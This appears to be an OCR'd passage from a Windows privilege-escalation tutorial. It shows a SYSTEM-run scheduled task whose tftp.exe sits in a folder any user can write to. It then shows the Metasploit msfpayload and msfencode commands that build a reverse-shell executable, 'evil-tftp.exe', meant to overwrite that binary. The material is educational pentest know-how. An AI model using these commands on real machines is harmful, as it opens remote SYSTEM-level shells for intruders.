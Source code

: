 Directory of E:\GrabLogs
02/18/2014 11:34 PM <DIR> .
02/18/2014 11:34 PM <DIR> ..
02/18/2014 11:34 PM <DIR> Logs
02/18/2014 09:21 PM 180,736 tftp.exe
1 File(s) 180,736 bytes
3 Dir(s) 5,454,602,240 bytes free

Clearly this is a serious configuration issue, there is no need for this task to run as SYSTEM but even worse is the fact that any authenticated user has write access to the folder. Ideally for a pentesting engagement I would grab the TFTP client, backdoor the PE executable while making sure it still worked flawlessly and then drop it back on the target machine. However for the purpose of this example we can simple overwrite the binary with an executable generated by metasploit.

root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O Name: Windows Command Shell, Reverse TCP Inline

Module: payload/windows/shell_reverse_tcp
Platform: Windows
Arch: x86
Needs Admin: No
Total size: 314
Rank: Normal
Provided by:
vlad902 <vlad902@gmail.com>
sf <stephen_fewer@harmonysecurity.com>
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh, thread, process, none
LHOST 127.0.0.1 yes The listen address
LPORT 9988 yes The listen port
Description:

Connect back to attacker and spawn a command shellroot@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' R | msfencode -t

exe > /root/Desktop/evil-tftp.exe[*] x86/shikata_ga_nai succeeded with size 341 (iteration=1)

All that remains now is to upload our malicious executable and overwrite "E:\GrabLogs\tftp.exe". Once that is done we can get an early night sleep and wake up for our shell in the morning. An important thing to remember here is that we check the time/timezone on the box we are trying to compromise.

C:\Users\user1\Desktop> dir Volume in drive C has no label.
Volume Serial Number is 948D-A98F
Directory of C:\Users\user1\Desktop
02/19/2014 01:36 AM <DIR> .
02/19/2014 01:36 AM <DIR> ..
04/22/2013 09:39 AM 331,888 accesschk.exe
02/19/2014 01:31 AM 73,802 evil-tftp.exe
01/25/2014 12:46 AM 36,864 fubar.exe
01/22/2014 08:17 AM <DIR> incognito2
06/30/2011 01:52 PM 1,667,584 ncat.exe
02/18/2014 12:38 PM 14,336 wlbsctrl.dll
11/22/2013 07:39 PM 1,225 wmic_info.bat
6 File(s) 2,125,699 bytes
